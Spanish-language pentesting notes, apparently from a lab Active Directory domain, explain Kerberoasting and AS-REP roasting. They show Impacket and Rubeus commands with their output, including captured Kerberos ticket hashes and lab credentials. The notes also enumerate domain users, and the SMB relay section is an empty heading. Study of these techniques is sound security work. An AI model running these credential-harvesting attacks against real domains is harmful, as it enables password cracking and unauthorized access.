

## Kerberoasting attack

El objetivo de Kerberoasting es recolectar tickets `TGS` para servicios que se ejecutan en nombre de cuentas en ActiveDirectory. Es m+as probable que este ataque tenga éxito cuando las cuentas de servicio tienen contraseñas débiles

> TGS(Ticket Granting Service): es el ticket que se presenta ante un servicio para poder acceder a sus recursos. Se cifra con la clave del servicio correspondiente.

> TGT(Ticket Granting Ticket): es el ticket que se presenta ante el KDC para obtener los TGS.

> KDC(key Distribution Center): es el servicio de `kerberos` encargado de distribuir los tickets a los clientes, instalado en el DC(Domain Controller).

**Tickets en kerberos**  
Se utilizan para obtener la identidad de los usuarios. `Kerberos` mantiene una base de datos de claves secretas; cada identidad de la red posee una clave secreta, conocida únicamente por ella y `kerberos`, con la que demuestra su identidad.



### GetUserSPNs.py

Esta herramienta requiere de un usuario y la contraseña de un usuario de dominio.

```
❯ GetUserSPNs.py -request fsociety.local/ealderson:Password1
Impacket v0.9.23.dev1+20210427.174742.fc72ebad - Copyright 2020 SecureAuth Corporation

ServicePrincipalName      Name   MemberOf                                            PasswordLastSet             LastLogon  Delegation 
------------------------  -----  --------------------------------------------------  --------------------------  ---------  ----------
http://fsociety.local:80  amoss  CN=Administradores,CN=Builtin,DC=fsociety,DC=local  2021-09-20 14:55:59.155350  <never>               

$krb5tgs$23$*amoss$FSOCIETY.LOCAL$fsociety.local/amoss*$8cfc0b635da2343449c9a4120caafc7e$4f01aa454e9aa5580d5f56b75604e279ad923fd84691571cae59c7981d7aaebb91b8ab335c00d40215b9569f246a273983f5ab411a93fefd6861770ecba8536837a143953f57df7e0d7ecf64ad479a72fb7b04f26e6233619a7f925540a80bf2129f56296b7e333475fa8e78aa079894b8ddcbf4e9dae797139d7830e32f5533f8109a6d9a4bafd31290f5ba8a13e7bbe231da66cbf3f544894ca0fd23249eb27f1221210e5723bb37192195d13d44815cfb4defbcc81b710db6aa87420b542f9a120449712d572d6f58a651061219988f8b217cdbfa1f4a4f89c062f21304359fa939e2ebc70a39d2d123dbac1f56c1a40823a96bcd0763f2d861ac685f14899bd842248b4111883f0b573ea55c37b3b635b8b0408dd2eddf91f02500af674b5dbbacb3ca9905f1124be7e0aa05351ad26d22eaed6fcc878fd20da1311df83ccff3ea92c892e8d186706c0198d54844b010f4ba93b5cc484eda23e8f66813aecde2020ea8836e7c268093950d4f03439425e0dc2da2b84b8fe85f98b7a6c144a263fd6ba01bbf29f3313a04af6016c9bb9f473b093e9e7b8e684274b1c6f2314f4fdeb9077d83a1c4c187fd90d2720ae23cfe6a2e3adc456d020d142584e6924d618a93b9cd02909d9e1d72cf7c81448640292a801e264b74d59e63716793faaed28928376986489ce0591dd32c50a933a1fda994ef6a8e8063bb2453c952438f8e28c3de4d3b09bb45e9ed14d5e6140f1eef48a54c3444162c5c9d7e43258106d4d17fe7f189ba90dce384a14f62f2d5fa03653b5aba691d1f7dab30a954a0e8f54a8df452df00c2435b0b8999aca06f103a6e2a20121626411e393c5b8e932dd386dc5c6616966e2d2416a1e8b257dcde145222f586d1b2ada3000eb3e500aed7a37a8b8fb427475ca2ad3b0b5a07edc714cd3ee659f66ca10f6b4fc936f79840a8b88fa6e8d843d9d2f658c9d9336bd78839c9176aa1e773f3eac6c81cbcc046be0652ef4895d91fea0b3eb6bcec1996f26f63f91d966f3134ba848ade9e12f97dafa8569a4b768de7a9bade3ab8508c51f6da3bf765bbb4de339c97c393d06a1ae30f815075eb809dadc671831c9ef0470c2eb4ae27501e87db109aba115a02275fbd82b60b45fe69b710484778a78c353e74217a02c9527ffb54d2fadc4763e807929ad253e94879fe9bbe1f814db98a9d4c8833c7f07e52d876fc1a6337a8118ba2384c66927493190e5e644b442ae981761ff53c1de9c3937e99a9714c15bd74295f74d048c9cad7bdf940abc4b4fe68cb2cf521e08fe644da8f0148e791765111e9fca904a7dd5834a4cd50a87fbbad
```


----

## AS-REP roast attack

Esta técnica ofensiva contra `kerberos ` permite recuperar los hashes de contraseña para los usuarios que no requieren autenticación previa.

Si el usuario tiene habilitada la opción **"Do not use Kerberos pre-authentication"**, entonces un atacante puede recuperar un `AS-rEP` de `kerberos` cifrado con la contraseña `RC4-HMAC` del usuario y puede intentar descifrar este ticket sin conexión.

Desde el sistema local se puede enumerar fácilmente la cuenta de usuario

```
PS C:\> Get-ADUser -Filter "useraccountcontrol -band 4194304" -Properties useraccountcontrol | Format-Table name
name     
----     
dalderson
```

### GetNPUsers.py

```
> cat users
ealderson
dalderson
amoss
administrador
```

```
❯ GetNPUsers.py -dc-ip 192.168.0.102 fsociety.local/ -usersfile users
Impacket v0.9.23.dev1+20210427.174742.fc72ebad - Copyright 2020 SecureAuth Corporation

[-] User ealderson doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$dalderson@FSOCIETY.LOCAL:b8d53a02b59fb9bf5fcb88584ceffc8a$9c750a5b21a9ef497e956f8b8ef6c9321a7e9dae5349a97b4fdd94fd5576a4f25054f459648c9a3ff3488527b9562fe163d3315bfa3f3248db2d861e52a49b670ff1c6ae8decf5a8d775feba2c0bf6070457a6feb4d18c6f9748f03b2339c2a0dd0b13a3b83c933dae0ea689e4ea518d6fc8a6874041f015075bab6a27a33ed72ebb96c796f485ee5a7d43aa1f3f7bd36ae3e65fbad34edc0b1774784ba7f8541bb314ca0a19a9fa0fe3f0a0d0f1c832b53ad40c03154da770e179f5a52987c0ebcccce4ace566546448125061d4037cdd090f53d2ea12dd5c6e49adfe631e0a0d7e79bbf56317b96637f62a933f1d85
[-] User amoss doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User administrador doesn't have UF_DONT_REQUIRE_PREAUTH set
```

### Rubeus

```
Rubeus.exe asreproast
Rubeus.exe asreproast /format:john /outfile:hash.txt
```

## SMB relay


----

### GetADUsers.py

```
❯ GetADUsers.py -all fsociety.local/administrador:admin123\$! -dc-ip 192.168.0.102
Impacket v0.9.23.dev1+20210427.174742.fc72ebad - Copyright 2020 SecureAuth Corporation

[*] Querying 192.168.0.102 for information about domain.
Name                  Email                           PasswordLastSet      LastLogon           
--------------------  ------------------------------  -------------------  -------------------
Administrador                                         2021-09-20 11:51:12.490884  2021-09-20 16:54:21.733898 
Invitado                                              <never>              <never>             
DefaultAccount                                        <never>              <never>             
krbtgt                                                2021-09-20 14:29:54.933246  <never>             
ealderson                                             2021-09-20 14:53:48.566725  <never>             
amoss                                                 2021-09-20 14:55:59.155350  2021-09-20 16:52:43.030308 
dalderson                                             2021-09-20 14:56:10.999585  <never>             
```

